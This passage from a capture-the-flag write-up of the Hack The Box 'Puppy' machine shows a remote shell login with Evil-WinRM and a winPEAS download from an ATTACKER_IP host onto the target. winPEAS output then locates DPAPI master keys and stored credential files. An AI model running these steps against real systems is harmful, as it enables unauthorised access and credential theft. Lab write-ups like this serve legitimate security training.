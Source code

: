 ```
fcoomans@kali:~/htb/puppy$ evil-winrm -i dc.puppy.htb -u steph.cooper -p ChefSteph2025!

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> whoami
puppy\steph.cooper
```

## 🛡️ DPAPI Credentials

### 🔎 Recon

I shared winpeas on the attack host,

```
fcoomans@kali:~/htb/puppy$ python -m http.server -d /usr/share/peass/winpeas
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

And download it on the target.

```
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> cd $env:temp
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Local\Temp> iwr http://ATTACKER_IP:8000/winPEASx64.exe -outfile winpeas.exe
```

`winpeas` found that there were potentially DPAPI encrypted passwords saved for user Steph Cooper.

```
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Local\Temp> .\winpeas.exe

<SNIP>

ÉÍÍÍÍÍÍÍÍÍÍ¹ Checking for DPAPI Master Keys
È  https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#dpapi
    MasterKey: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407
    Accessed: 3/8/2025 7:40:36 AM
    Modified: 3/8/2025 7:40:36 AM
   =================================================================================================


ÉÍÍÍÍÍÍÍÍÍÍ¹ Checking for DPAPI Credential Files
È  https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#dpapi
    CredFile: C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D
    Description: Local Credential Data

    MasterKey: 556a2412-1275-4ccf-b721-e6a0b4f90407
    Accessed: 3/8/2025 8:14:09 AM
    Modified: 3/8/2025 8:14:09 AM
    Size: 11068
   =================================================================================================

```